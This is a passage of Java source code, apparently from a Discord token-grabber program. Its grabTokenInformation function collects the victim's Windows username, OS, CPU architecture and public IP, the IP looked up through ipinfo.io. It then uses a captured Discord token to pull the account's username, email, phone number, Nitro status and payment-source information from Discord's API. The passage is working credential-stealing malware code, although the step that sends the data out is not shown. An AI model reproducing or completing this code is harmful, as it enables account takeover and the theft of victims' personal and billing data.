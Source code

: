            } else {
            }
        }
        ///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
        //Write Output to File
        if (output) {
            Path path = new File("output","output.txt").toPath();
            byte[] strToBytes = final_text.toString().getBytes();

            Files.write(path, strToBytes);
        }
    }

    private static String grabTokenInformation(String avatar_url, String username, String token, boolean sendEmbed) throws IOException {
        //Account Information
        String accountInfo_username;

        String accountInfo_email;
        String accountInfo_phoneNr;
        boolean accountInfo_hasNitro; //https://discord.com/api/v8/users/@me/billing/subscriptions
        boolean accountInfo_hasBillingInfo; //https://discord.com/api/v8/users/@me/billing/payment-sources
        String accountInfo_imageURL;

        //PC Info
        String pcInfo_IP;
        String pcInfo_Username;
        String pcInfo_cpuArch;
        String pcInfo_WindowsVersion;

        //Assign what we know
        pcInfo_Username = System.getProperty("user.name");
        pcInfo_WindowsVersion = System.getProperty("os.name");
        pcInfo_cpuArch = System.getProperty("os.arch");

        //Get IP
        pcInfo_IP = get_request("http://ipinfo.io/ip", false, null);

        //Get discord token
        String tokenInformation = get_request("https://discordapp.com/api/v6/users/@me", true, token).replace(",", ",\n");
        accountInfo_username = getJsonKey(tokenInformation, "username") + "#" + getJsonKey(tokenInformation, "discriminator");
        accountInfo_hasNitro = !get_request("https://discord.com/api/v8/users/@me/billing/subscriptions", true, token).equals("[]");
        accountInfo_hasBillingInfo = !get_request("https://discord.com/api/v8/users/@me/billing/subscriptions", true, token).equals("[]");
        accountInfo_email = getJsonKey(tokenInformation, "email");

        accountInfo_phoneNr = getJsonKey(tokenInformation, "phone");
        accountInfo_imageURL = "https://cdn.discordapp.com/avatars/"+getJsonKey(tokenInformation, "id")+"/"+getJsonKey(tokenInformation, "avatar")+".png";


